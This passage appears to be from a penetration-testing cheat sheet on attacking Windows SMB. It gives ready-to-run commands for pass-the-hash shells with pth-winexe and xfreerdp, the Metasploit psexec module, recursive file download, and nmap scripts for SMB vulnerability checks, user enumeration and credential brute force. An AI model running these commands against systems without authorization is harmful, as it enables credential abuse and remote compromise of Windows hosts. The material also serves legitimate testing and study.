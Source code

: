 WARNNIG, be careful when using the `get` command to download absolute path files from the remote system. Eg. `get /etc/passwd` will download the passwd file and ovewrite YOUR `/etc/passwd`. Use `get /etc/passwd /tmp/passwd` instead.

To download recursively:
```
# Within smbclient, download everything recursively:
mask ""
recurse ON
prompt OFF
cd 'path\to\remote\dir'
lcd '~/path/to/download/to/'
mget *
```

##### pth-winexe
Works great sometimes. Can open a windows cmd shell.
```sh
pth-winexe -U administrator%WIN20082017 //192.168.1.23 cmd # using a plaintext password
pth-winexe -U Administrator%A433F6C2B0D8BB92D7288ECFFACFC7CD //192.168.1.23 cmd # ntlm hash encrypted with https://www.browserling.com/tools/ntlm-hash
pth-winexe -U domain/user%A433F6C2B0D8BB92D7288ECFFACFC7CD //192.168.1.23 cmd # domain user
pth-winexe -U Administrator%8F49412C8D29DF02FB62879E33FBB745:A433F6C2B0D8BB92D7288ECFFACFC7CD //192.168.1.23 cmd # lm+ntlm hash encrypted with https://asecuritysite.com/encryption/lmhash
pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:A433F6C2B0D8BB92D7288ECFFACFC7CD //192.168.1.23 cmd # ntlm hash + empty lm hash
# or
export SMBHASH=aad3b435b51404eeaad3b435b51404ee:6F403D3166024568403A94C3A6561896
pth-winexe -U Administrator% //192.168.1.23 cmd
```

##### psexec Metasploit
`exploit/windows/smb/psexec`

##### xfreerdp Remote Desktop Protocol
Before using `xfreerdp`'s `/pth` feature, you have to build and install latest version. Apparently updating and upgrading with `apt-get install freerdp-x11` only gets you `FreeRDP version 1.1.0-beta1`. The latest already 2+. Source and compilation guide: https://nullsec.us/rdp-sessions-with-xfreerdp-using-pth/ Still does not work after updating though.
```sh
xfreerdp /u:testing /d:thinc /pth:31d6cfe0d16ae931b73c59d7e0c089c0 /v:192.168.1.23
```

### Nmap SMB NSE Scripts
* List all smb nse scripts - `ls -la /usr/share/nmap/scripts/smb*`
* Check smb and OS using nse script - `nmap -p 139,445 --script=smb-os-discovery 192.168.1.23`
* Check certain smb vulnerability against all hosts - `nmap -iL hosts -Pn -p 139,445 --script=smb-vuln-ms08-067 --script-args=unsafe=1`
* Enumerate smb usernames (similar to `enumdomusers` with `rpcclient`) - `nmap -p 139,445 --script=smb-enum-users [ip]`
* Brute force smb creds - `nmap -p 139,445 --script=smb-brute [ip]`
* Check many common smb vulnerabilities against a host - `nmap -p 139,445 --script=smb*-vuln* --script-args=unsafe=1 [ip]`
